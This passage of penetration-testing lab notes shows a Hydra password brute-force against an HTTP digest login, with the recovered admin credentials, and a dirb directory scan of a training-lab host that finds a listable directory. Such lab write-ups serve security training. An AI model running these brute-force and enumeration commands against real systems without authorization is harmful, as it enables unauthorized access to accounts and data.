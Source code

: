 `hydra -l 'admin' -P /root/Desktop/wordlists/100-common-passwords.txt 192.208.248.3 http-get /digest/`:
```
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-11-27 19:09:41
[DATA] max 16 tasks per 1 server, overall 16 tasks, 100 login tries (l:1/p:100), ~7 tries per task
[DATA] attacking http-get://192.208.248.3:80/digest/
[80][http-get] host: 192.208.248.3   login: admin   password: adminpasswd 🔑
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-11-27 19:09:43
```

---

## Sensitive Data Exposure

### Sensitive Data Exposure Vulnerabilities

#### Lab Environment

**Vulnerable Apache III**

Apache is probably the most popular web server on the World Wide Web with millions of deployments! In this series of challenges, we hope to explore how attackers can exploit webapps running on Apache  arising due to server misconfigurations and/or application vulnerabilities. Take a look at the scenario below.

The target server is hosting a web app. The web app is not vulnerable but the directory listing enabled on the server. And, that can lead to sensitive information leakage.

**Objective**: Your objective is to login into the webapp as 'admin' user and retrieve the flag!

#### Lab Solution

`dirb https://x98om58h6103o8tnmyurp1okd.eu-central-5.attackdefensecloudlabs.com/ /usr/share/wordlists/dirb/small.txt`:
```
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed Nov 27 14:44:58 2024
URL_BASE: https://x98om58h6103o8tnmyurp1okd.eu-central-5.attackdefensecloudlabs.com/
WORDLIST_FILES: /usr/share/wordlists/dirb/small.txt

-----------------

GENERATED WORDS: 959                                                           

---- Scanning URL: https://x98om58h6103o8tnmyurp1okd.eu-central-5.attackdefensecloudlabs.com/ ----
+ https://x98om58h6103o8tnmyurp1okd.eu-central-5.attackdefensecloudlabs.com/cgi-bin/ (CODE:403|SIZE:340)                                                                                   
+ https://x98om58h6103o8tnmyurp1okd.eu-central-5.attackdefensecloudlabs.com/composer (CODE:200|SIZE:403)                                                                                   
==> DIRECTORY: https://x98om58h6103o8tnmyurp1okd.eu-central-5.attackdefensecloudlabs.com/docs/                                                                                             
+ https://x98om58h6103o8tnmyurp1okd.eu-central-5.attackdefensecloudlabs.com/logo (CODE:200|SIZE:14598)                                                                                     
==> DIRECTORY: https://x98om58h6103o8tnmyurp1okd.eu-central-5.attackdefensecloudlabs.com/public/ 📌                                                                                        
---- Entering directory: https://x98om58h6103o8tnmyurp1okd.eu-central-5.attackdefensecloudlabs.com/docs/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
```